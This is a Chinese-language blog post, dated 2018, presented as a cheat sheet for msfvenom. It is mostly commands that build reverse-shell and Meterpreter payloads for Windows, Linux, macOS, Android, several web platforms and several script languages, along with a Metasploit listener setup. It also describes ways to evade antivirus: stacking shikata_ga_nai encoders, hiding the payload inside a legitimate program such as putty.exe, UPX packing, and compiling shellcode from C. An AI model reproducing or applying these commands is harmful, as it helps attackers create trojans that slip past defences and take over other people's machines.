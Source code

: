```yaml
---
layout: post
title:  msfvenom 使用
date:   2018-10-19 17:23:03 +0800
img:
description: msfvenom 常用方法，免杀思路
categories: note
---
```


* 目录
{:toc}

## 木马连接方式

- 正向连接(bind)

    是我主动去连接别人机器上的某个端口,很显然,这样极易被对方防火墙拦掉

- 反向连接(reverse)

    是让别人机器上的某个端口上的流量主动连到我机器上的某个端口上,起码暂时对各类应用层防火墙的穿透效果还是蛮不错的

## msfvenom 常用选项

```
-l  列出所有可用的payload,编码器,空指令……
-p  指定要使用的msf的payload,也可以使用自定义payload,几乎是支持全平台的
-f  指定payload输出的文件类型,--help-formats,可查看支持的所有输出格式
-e  指定要使用那种编码器
-i  指定编码的次数,如果使用编码器
-b  指定坏字符,比如空字符截断问题,等等……
-x  使用一个自定义可执行程序模板,并将payload嵌入其中
-k  当模板被执行时,payload自动分离并注入到新的进程中,一般和-x选项一并使用
-o  指定创建好的payload的存放位置
```
## 使用msf创建监听器
```
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession false
exploit -j -z
```

## 创建Metasploit payload

直接使用msfvenom生成的反弹shell程序一般都会被杀毒软件无情差杀掉
避免被查杀的最普遍方法是编码，简单来说就是改变可执行文件中的代码形状，从而让只识别静态特征码的杀毒软件无法识别，且当木马运行之后，木马会将原始程序解码到内存中，如此木马原来的功能自然也不会受到影响

可以使用`x86/shikata_ga_nai `动态编码器进行混淆，简单单次混淆一般都能被杀毒软件先解码再查杀识别出来，那么尝试使用 **多重编码器多次混淆**
```
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -i 10 -f raw | msfvenom -e x86/alpha_upper -a x86 --platform windows -i5 -f raw | msfvenom -e x86/shikkata_ga_nai -a x86 --platform windows -i 10 -f raw | msfvenom -e x86/countdown -a x86 --platform windows -i 10 -b '\x00\x0a\xff' -f exe -o shell.exe
```
如果进行多次编码的马儿还是被查杀，可以尝试 **更换可执行文件模板**，重新生成木马
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -x putty.exe -k -i 5 -f exe -o shell.exe
```
发现更换可执行文件模板的马儿依然被查杀，编码和更换模板都行不通，可以试试 **加壳**。软件加壳基本原理就是对可执行文件进行加密压缩，执行之后将代码解压为原始程序，这里分别使用5、9级别upx加壳等级对木马进行加壳
```
upx -5 shell.exe -o upx5_shell.exe
upx -9 shell.exe -o upx9_shell.exe
```
将木马藏在可执行文件里面，文件的md5值会发生改变，杀毒软件将文件与官方原版文件进行对比即可判断是否异常，这里 **换一个不常见的可执行文件模板（可以是自己写的）**
还有可以不直接生成可执行文件，而是 **生成c代码**
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform windows LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -i 15 -b '\x00\' -f c -o shell.c
```
利用编译器编译生成可执行文件来绕过杀软



**windows平台**
```
# msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 3 -f exe -o x86_shell.exe
# msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=<ip> LPORT=<port> -e cmd/powershell_base64 -i 3 -f raw -o x86_shell.ps1
```

**linux平台**
```
# msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f elf -o shell.elf
```

**mac平台**
```
# msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f macho -o x86_shell.macho
```

**android平台**
```
# msfvenom -a x86 --platform Android -p android/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f apk -o x86_shell.apk
```

**Web Payloads**

**PHP**
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<ip> LPORT=<port> -f raw -o shell.php
```
**ASP**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=<port> -f asp -o shell.asp
```
**JSP**
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f raw -o shell.jsp
```
**WAR**
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<ip> LPORT=<port> -f war -o shell.war
```

**Script Payloads**

**Python**
```
msfvenom -p python/meterpreter_reverse_tcp LHOST=<ip> LPORT=<port> -f raw -o rshell.py
```
**Perl**
```
msfvenom -p cmd/unix/reverse_perl LHOST=<ip> LPORT=<port> -f raw -o shell.pl
```
**Node.js**
```
msfvenom -p nodejs/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f raw -o shell.js
```
**Bash**
```
msfvenom -p cmd/unix/reverse_bash LHOST=<ip> LPORT=<port> -f raw -o shell.sh
```
**ruby**

```
# msfvenom -p ruby/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f raw -o x86_shell.rb
```
**lua**

```
# msfvenom -p cmd/unix/reverse_lua LHOST=<ip> LPORT=<port> -f raw -o x86_shell.lua
```
